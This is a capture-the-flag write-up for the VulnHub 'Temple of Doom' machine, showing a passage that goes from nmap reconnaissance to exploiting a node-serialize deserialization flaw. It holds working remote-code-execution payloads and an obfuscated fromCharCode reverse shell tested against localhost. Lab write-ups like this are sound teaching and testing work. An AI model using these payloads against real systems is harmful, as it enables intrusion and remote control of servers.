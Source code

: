 # Temple of Doom

* ### Setup

  Download the virtual machine <a href="https://www.vulnhub.com/entry/temple-of-doom-1,243/">here</a> and import it in either VirtualBox or VMWare.
  * **Addresses** - This will be important to understand the writeup.
    * My Kali machine: **10.0.2.15**
    * Temple of Doom machine: **10.0.2.14**
  

  
### Information Gathering
---

* Running **nmap** with `nmap -sC -sV -p- -A -oA templeofdoom 10.0.2.14` reveals **two** ports.
<!-- 1 -->  

1. **SSH** on default port **22** .
2. A <a href="https://en.wikipedia.org/wiki/Node.js">NodeJs</a> server running at port **666**.

Let's check the server at port **666**, while also setting **gobuster** and **nikto** running in the background.

<!-- 2 -->

We see an under construction message. After fuzzing the url a little bit and reloading the page a few times, the application errors out with 

<!-- 3 -->

This error tells us that something went wrong with the serialization process and we also notice the module doing the serialization is **node-serialize**.

* Unfortunately, this module contains a serious **deserialization vulnerability**, allowing **remote code execution**. There is a great analysis of such attacks in nodejs in this pdf https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf

### Vulnerability Analysis
---
* First we need to understand what a **deserialization vulnerablity** is. From <a href="https://www.acunetix.com/blog/articles/what-is-insecure-deserialization/">this article</a> by http://acunetix.com, 
> **_Insecure Deserialization_** is a vulnerability which occurs when untrusted data is used to abuse the logic of an application, inflict a denial of service (DoS) attack, or even execute arbitrary code upon it being deserialized. It also occupies the **#8 spot in the OWASP Top 10 2017 list.**
Serialization refers to a process of converting an object into a format which can be persisted to disk (for example saved to a file or a datastore), sent through streams (for example stdout), or sent over a network. JSON and XML are two of the most commonly used serialization formats within web applications.
Deserialization on the other hand, is the opposite of serialization, that is, transforming serialized data coming from a file, stream or network socket into an object.
Web applications make use of serialization and deserialization on a regular basis and most programming languages even provide native features to serialize data. **It’s important to understand that safe deserialization of objects is normal practice in software development. The trouble however, starts when deserializing untrusted user input.**

Based on the paper mentioned in the Information gathering section, we will create a test environment to confirm the vulnerablitiy.

**1.** First install **npm** with `apt install npm`, then the vulnerable **node-serialize** module with `npm install node-serialize`.  
  Note: npm will now warn you the node-serialize was found to contain a serious vulnerability.
  
**2.** Let's create a test object and then pass it to the **serialize** function.
  ```javascript
  var obj = {
rce : function(){
require('child_process').exec('id /', function(error,
stdout, stderr) { console.log(stdout) });
},
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(obj));
```
Saving the above code into a file called serialized.js and executing with `node serialized.js` outputs the serialized object
```javascript
{"rce":"_$$ND_FUNC$$_function(){\nrequire('child_process').exec('id', function(error,\nstdout, stderr) { console.log(stdout) });\n}"}
```
**3.** The main problem now is that even if this object is **unserialized**, nothing will execute unless the function with tag **"rce"** is called. Thankfully for us, Javascript contains a feature called **_Immediately invoked
function expression (IIFE)_** for calling the function. If we use IIFE bracket
() after the function body, the function **will get invoked when the object is
created.**
As such, our **new payload** is
```javascript
{"rce":"_$$ND_FUNC$$_function(){\nrequire('child_process').exec('id', function(error,\nstdout, stderr) { console.log(stdout) });\n}()"}
```
**Note the parentheses in the end.**

**4.** Create another script called **unserialize.js**, emulating the server behaviour with
```javascript
var serialize = require('node-serialize');
var payload = {"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'id \',function(error, stdout, stderr) { console.log(stdout)});}()"};
serialize.unserialize(payload);
```
and run it.

<!-- 4 -->

**We can clearly see our code got executed!**

**5.** For further testing, there is a very handy tool called <a href="https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py">nodejsshell.py</a>, that will help us create a **reverse shell** which will run in **node**.
For local testing purposes, run it with `python nodejsshell.py 127.0.0.1 1337` to create a payload that will send back a shell at localhost on port 1337. This is the outputted code:
```javascript
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```

We must put this in our final payload called localtest.js
```javascript
var serialize = require('node-serialize');
var payload = {"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"};
serialize.unserialize(payload);
```
and run locally, while also listening on port **1337**.

<!-- 5 -->

**We have a shell!**. Now we have to do the same on the remote machine.

